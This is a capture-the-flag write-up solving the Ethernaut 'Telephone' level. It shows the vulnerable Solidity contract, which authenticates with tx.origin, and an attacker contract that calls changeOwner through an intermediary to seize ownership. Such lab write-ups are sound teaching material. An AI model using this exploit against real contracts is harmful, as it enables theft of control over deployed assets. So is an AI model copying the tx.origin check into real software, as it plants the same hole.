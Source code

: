 [4 - Telephone](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)

Solution: 
* Externally-owned-account -> contract A => tx.origin = msg.sender = EOA address
* Externally-owner-account -> contract A -> contract B => tx.origin = EOA address, msg.sender = contract A
* Solution is to call another contract A, which calls Telephone's **changeOwner**
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelephoneSolution {
    Telephone private constant telephoneContract = Telephone(0x61072A4015b3f30604EA370daf4b610B36D94758);

    function solve(address _owner) external {
        telephoneContract.changeOwner(_owner);
    }
}

await contract.owner(); // to check owner changed
```
* I deployed this using Remix IDE, and then called TelephoneSolution.solve with my address.
* 